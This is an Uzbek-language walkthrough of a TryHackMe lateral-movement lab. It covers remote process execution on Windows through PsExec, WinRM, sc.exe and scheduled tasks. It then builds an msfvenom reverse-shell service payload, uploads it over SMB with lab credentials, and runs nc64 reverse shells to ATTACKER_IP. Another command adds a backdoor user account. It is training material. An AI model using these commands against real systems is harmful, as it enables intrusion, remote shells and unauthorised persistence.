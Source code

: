 ### 🛠 Uzoqdan Process Ishga Tushurish (Remote Process Creation)

Ushbu topshiriqda hujumchilar tomonidan **to‘g‘ridan-to‘g‘ri masofaviy kompyuterlarda process ishga tushurish** uchun mavjud bo‘lgan usullar ko‘rib chiqiladi. Har bir texnika bir-biridan biroz farq qiladi, va ular ma'lum holatlarda yaxshiroq ishlashi mumkin.

---

## 1. **PsExec orqali ishga tushurish**

* **Portlar:** 445/TCP (SMB)
* **Talab qilinadigan guruh a’zoligi:** Administrators

**PsExec** uzoqdan buyruqlarni ishga tushurish uchun eng mashhur vositalardan biri bo‘lib, Sysinternals to‘plamiga kiradi.

PsExec ishlash tartibi:

1. `Admin$` bo‘lishuviga ulanib, servis faylini yuklaydi (`psexesvc.exe`).
2. Uzoq hostda `PSEXESVC` nomli servis yaratadi.
3. Named pipe'lar orqali `stdin/stdout/stderr` bilan aloqa o‘rnatadi.

**Buyruq namunasi:**

```bash
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

---

## 2. **WinRM orqali masofadan PowerShell komandalarini bajarish**

* **Portlar:** 5985/TCP (HTTP) yoki 5986/TCP (HTTPS)
* **Talab qilinadigan guruh a’zoligi:** Remote Management Users

**WinRM** bu veb asosidagi protokol bo‘lib, Windows hostlarga masofadan PowerShell komandalarini yuborish uchun ishlatiladi.

**Komandalar:**

✅ CMD orqali:

```bash
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

✅ PowerShell orqali:

```powershell
$username = 'Administrator'
$password = 'Mypass123'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Enter-PSSession -Computername TARGET -Credential $credential
```

✅ Skriptni masofaviy ishga tushurish:

```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock { whoami }
```

---

## 3. **SC.exe orqali masofaviy servis yaratish**

* **Portlar:**

  * 135/TCP, 49152-65535/TCP (DCE/RPC)
  * 445/TCP, 139/TCP (SMB named pipes orqali RPC)
* **Talab qilinadigan guruh a’zoligi:** Administrators

SC.exe yordamida **masofaviy servis** yaratib, unga istalgan komandani yuklab ishga tushurish mumkin.

**Namuna komandalar:**

```bash
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

**Servisni tozalash:**

```bash
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

---

## 4. **Scheduled Tasks yordamida hujum**

Windows'ning rejalashtirilgan vazifalar (scheduled tasks) funksiyasi orqali ham masofaviy komandani ishga tushirish mumkin.

**Vazifa yaratish:**

```bash
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<komanda>" /sc ONCE /sd 01/01/1970 /st 00:00
```

**Vazifani ishga tushurish:**

```bash
schtasks /s TARGET /run /TN "THMtask1"
```

**Tozalash:**

```bash
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

---

## 🎯 Amaliy Vazifa

Sizga **THMJMP2** serveriga quyidagi credential yordamida ulanish topshiriladi:

```
User: ZA.TRYHACKME.COM\t1_leonard.summers  
Parol: EZpass4ever
```

SSH orqali ulanishingiz kerak:

```bash
ssh za\\<foydalanuvchi_nomi>@thmjmp2.za.tryhackme.com
```

Ushbu credential yordamida biz **THMIIS** serveriga `sc.exe` orqali hujum qilamiz. Boshqa usullarni ham sinab ko‘rishingiz mumkin.

---

## 🐚 Reverse Shell yaratish va ishga tushurish

**Step 1: Payload yaratish:**

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

**Step 2: Payloadni THMIIS ga yuborish:**

```bash
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

**Step 3: Listener sozlash (msfconsole):**

```bash
msfconsole
msf6 > use exploit/multi/handler
msf6 > set LHOST lateralmovement
msf6 > set LPORT 4444
msf6 > set payload windows/shell/reverse_tcp
msf6 > exploit
```

**Yoki bir qatorli usul:**

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

---

## 🔁 runas orqali ikkinchi reverse shell

PsExec, sc yoki boshqa vositalar credentialni to‘g‘ridan-to‘g‘ri uzatishni qo‘llab-quvvatlamagan holatda, `runas` yordamida yangi sessiya ochamiz:

```bash
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

> ⚠️ E’tibor bering: `runas /netonly` parolni tekshirmaydi — agar noto‘g‘ri kiritsangiz, keyinchalik ACCESS DENIED xatoliklarini ko‘rasiz.

**AttackBox'da listener ochamiz:**

```bash
nc -lvp 4443
```

---

## 💥 Service yaratish va ishga tushurish

```bash
sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

> ✅ **Eslatma:** Boshqa foydalanuvchilar bilan laboratoriya ulashilgani uchun servis nomini `THMservice-<tasodifiy raqam>` shaklida berib, to‘qnashuvlardan saqlaning.

---

✅ Endi sizga `t1_leonard.summers` ish stolidagi **birinchi flag** reverse shell orqali ko‘rinadi.
